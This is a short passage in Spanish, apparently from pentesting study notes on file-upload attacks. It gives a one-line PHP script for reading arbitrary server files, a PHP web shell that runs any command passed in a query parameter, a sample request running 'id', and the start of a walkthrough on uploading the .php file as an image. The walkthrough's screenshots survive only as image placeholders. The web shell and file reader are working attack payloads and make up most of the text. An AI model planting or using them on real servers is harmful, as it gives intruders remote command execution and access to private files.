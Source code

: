 _El siguiente PHP de una línea podría usarse para leer archivos arbitrarios del sistema de archivos del servidor:_

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

_WebShell_

```php
<?php echo system($_GET['command']); ?>
```

_Este script le permite pasar un comando de sistema arbitrario a través de un parámetro de consulta de la siguiente manera:_

```http
GET /example/exploit.php?command=id HTTP/1.1
```

#### EJEMPLO PRÁCTICO

<figure><img src="../.gitbook/assets/imagen (85).png" alt=""><figcaption></figcaption></figure>

_Ponemos nuestro archivo con la extensión php..._&#x20;

<figure><img src="../.gitbook/assets/imagen (86).png" alt=""><figcaption></figcaption></figure>

_Cargamos la imagen_

<figure><img src="../.gitbook/assets/imagen (87).png" alt=""><figcaption></figcaption></figure>
